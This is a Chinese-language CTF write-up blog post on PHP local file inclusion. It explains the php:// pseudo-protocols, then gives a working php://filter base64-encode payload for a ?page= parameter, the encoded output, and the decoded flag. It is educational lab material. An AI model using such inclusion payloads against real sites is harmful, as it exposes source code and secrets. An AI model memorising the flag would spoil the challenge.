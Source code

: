```yaml
---
layout:     post
title:      FileInclude 
subtitle:   
date:       2020-03-15
author:     SGQ
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - FileInclude 
    - Web
---
```


## 简介:

   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。

   程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。





## 题目:

``` html
<body> 

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="http://blue-whale.me/">blue-whale.me</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



ha ha? you want flag? flag is here, but don't let you see!

      <footer>
        <p>&copy; Blue-Whale 2017</p>
      </footer>

    </div> <!-- /container -->


  </body>

```

## 考察点：

**1.文件包含的基本原理**

**2.文件包含如何构造payload**


## 知识点：


**1.原理:**

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

**2.文件包含漏洞分为：**

(1).本地文件包含漏洞

顾名思义，就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用

(2).远程文件包含漏洞

远程文件包含就是调用其他网站的恶意文件进行打开


**3.php常见的几个文件包含函数：**
`include()`,   `include_once()`,  `fopen()`, `require()`,  `require_once()`

**4.php伪协议的分类**

>`php://input`

php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。

使用条件：`include( )`、`include_once( )`、`file_get_contents( )`

比较特殊的一点，enctype=”multipart/form-data”的时候 php://input 是无效的。

>`php://output`

php://output 是一个只写的数据流，允许你以print和echo一样的方式写入到输出缓冲区。

>`php://filter`

php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，也就是作为一种过滤器，可以使用在数据流产生的地方。

类似的过滤器还有`string.rot13`、`string.strip_tags`、`zlib.deflate`和`zlib.inflate`等等，目前只要知道`convert.base64-encode`就可以。

**5.URL 中包含点的常见形式:**

`?file = xxx `或者 `?file = xxx.php`



## 解题过程：

**1.** 首先分析页面代码，发现 `<li class="active"><a href="./?page=home">Home</a></li>`,
              `<li class="active"><a href="./?page=flag">Flag</a></li>`  ，可能出现文件包含漏洞.




**2.** 然后开始构造payload，分析页面发现，`http://vps1.blue-whale.me:23338/?page=flag` ,这里是靠page参数进行跳转页面，
于是构造payload : `?page=php://filter/read/resource=./flag `  ,此段代码的含义可理解为筛选`page=flag`的页面并读取。但是页面并没有反应，于是我猜想可能是因为过滤了`read`这个关键词（一般会对一些伪协议的关键词进行过滤，如`read`、`resource`等等）。

**3.** 试一下将read这个关键词进行BASE64加密，新的payload：

`?page=php://filter/read=convert.base64-encode/resource=./flag`

**4.** 得到一组BASE64加密的字符串

`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdX
JjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9J
zsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

**5.** 进行解密，得到flag！
``` php
ha ha? you want flag? flag is here
<?php
// try to read this source code
//$flag = 'flag{really_basic_skill_web_dog_should_know}';
?>
, but don't let you see!   

```


**flag{really_basic_skill_web_dog_should_know}**





[参考链接（一）--文件包含原理](https://blog.csdn.net/qq_42133828/article/details/83927058)

[参考链接（二）--文件包含的技巧](https://www.cnblogs.com/ichunqiu/p/10683379.html)

## 谢谢您的查阅，欢迎来访！
